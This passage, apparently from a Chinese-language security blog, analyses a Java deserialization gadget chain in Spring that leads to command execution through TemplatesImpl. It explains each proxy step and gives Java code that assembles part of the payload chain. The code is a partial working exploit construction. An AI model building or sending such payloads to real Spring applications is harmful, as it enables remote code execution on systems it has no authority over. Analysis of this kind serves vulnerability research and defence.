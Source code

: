 2、然后将动态代理后的`ObjectFactory`类型的变量，传递给`ObjectFactoryDelegatingInvocationHandler`类进行初始化。这样只要触发了ObjectFactoryDelegatingInvocationHandler代理类的任意方法，都会触发代理的`invoke()`方法，从而触发`getObject()`方法的调用。

3、在`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider#readObject`方法中，通过反射将`methodName`修改为`newTransformer()`。同时，`ReflectionUtils.findMethod()`方法需要`this.provider.getType()`返回的类中存在`newTransformer()`方法，才可以成功获得`newTransformer()`方法。

​ `MethodInvokeTypeProvider`里面的provider成员变量是`TypeProvider`类型，因此使用AnnotationInvocationHandler动态代理来修改`TypeProvider`的`getType()`方法返回的值。同时因为`getType()`方法返回的类型为`Type`，并且我们需要在返回值的类中找到对应的`newTransfromer()`方法，所以`getType()`方法需要修改的返回值是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类。

4、第三步中，`ObjectFactoryDelegatingInvocationHandler`实现了`InvocationHandler`接口，我们就可以使用`ObjectFactoryDelegatingInvocationHandler`来代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类,并将这个类放到`getType()`返回的值中。

​ 这样当程序运行到到`org.springframework.util.ReflectionUtils#invokeMethod`方法的时候，会调用`ObjectFactoryDelegatingInvocationHandler`代理后的类的`newTransformer()`方法，然后就会触发`org.springframework.beans.factory.support.AutowireUtils.ObjectFactoryDelegatingInvocationHandler#invoke`方法，然后就会触发`ObjectFactory`的`getObject()`，这就与第一步和第二步做的事情联系到一起了。

5、最终在`org.springframework.beans.factory.support.AutowireUtils.ObjectFactoryDelegatingInvocationHandler#invoke`中实现触发命令执行。

```plain
TemplatesImpl tmpl = Util.SeralizeUtil.generateTemplatesImpl();
        // 使用 AnnotationInvocationHandler 动态代理
        Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        HashMap<String, Object> map = new HashMap<>();
        map.put("getObject", tmpl);

        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);

        // 使用 AnnotationInvocationHandler 动态代理 ObjectFactory 的 getObject 方法，使其返回 TemplatesImpl
        ObjectFactory<?> factory = (ObjectFactory<?>) Proxy.newProxyInstance(
                ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);
                // 当触发factory.getObject()方法时，返回值就被修改为tmpl

        // test :  factory.toString();

                //ObjectFactoryDelegatingInvocationHandler 的 invoke 方法触发 ObjectFactory 的 getObject
                //并且会调用 method.invoke(返回值,args)
                //此时返回值被我们使用动态代理改为了 TemplatesImpl
                //接下来需要 method 是 newTransformer()，就可以触发调用链了
        Class<?>       clazz          = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdConstructor = clazz.getDeclaredConstructors()[0];
        ofdConstructor.setAccessible(true);
        // 使用动态代理出的 ObjectFactory 类实例化 ObjectFactoryDelegatingInvocationHandler
        InvocationHandler ofdHandler = (InvocationHandler) ofdConstructor.newInstance(factory);

                //HashMap hashMap = (HashMap) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),HashMap.class.getInterfaces(),ofdHandler);
                //hashMap.get(1);
        // ObjectFactoryDelegatingInvocationHandler 本身就是个 InvocationHandler
        // 使用它来代理一个类，这样在这个类调用时将会触发 ObjectFactoryDelegatingInvocationHandler 的 invoke 方法
        // 我们用它代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类
        // 这样这个代理类同时拥有两个类的方法，既能被强转为 TypeProvider.getType() 的返回值，又可以在其中找到 newTransformer 方法
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, ofdHandler);

```